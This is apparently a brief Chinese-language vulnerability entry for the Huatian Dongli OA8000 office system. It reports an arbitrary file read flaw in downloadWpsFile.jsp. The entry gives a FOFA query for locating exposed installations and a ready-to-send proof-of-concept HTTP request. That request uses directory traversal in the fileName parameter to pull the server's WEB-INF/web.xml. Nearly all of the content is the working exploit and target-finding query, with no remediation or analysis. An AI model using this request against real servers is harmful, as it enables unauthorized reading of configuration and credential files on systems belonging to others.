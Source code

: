 # 华天动力OA系统downloadWpsFile存在任意文件读取漏洞



## fofa

```yaml
app="华天动力-OA8000"
```


## poc

```yaml
GET /OAapp/jsp/downloadWpsFile.jsp?fileName=../../../../../../htoa/Tomcat/webapps/ROOT/WEB-INF/web.xml HTTP/2
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3)AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip, deflate
```

